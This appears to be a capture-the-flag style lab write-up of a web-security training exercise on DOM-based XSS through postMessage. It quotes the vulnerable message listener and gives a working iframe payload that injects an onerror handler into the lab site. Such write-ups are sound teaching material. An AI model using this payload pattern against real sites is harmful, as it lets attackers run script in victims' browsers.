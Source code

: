 Title: DOM XSS using web messages
Level: PRACTITIONER
Desc: This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called. 

# Walkthrough:
In web page source code I found this:
<img width="1061" height="363" alt="image" src="https://github.com/user-attachments/assets/8757e91b-a35e-481e-a32f-a864269ecdd7" />

This code is vulnerable to DOM XSS:
```
<div id='ads'>
                    </div>
                    <script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
```

I can use this page in iFrame and using iFrame I can send POST message with malicious function:
`<iframe src="https://0af300ba03e1981380b42643003c00de.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=x onerror=print()>', '*')">`

Victim after loading that message would have windows with application in iframe and in the same time our payload would execute causing print() function to appear.
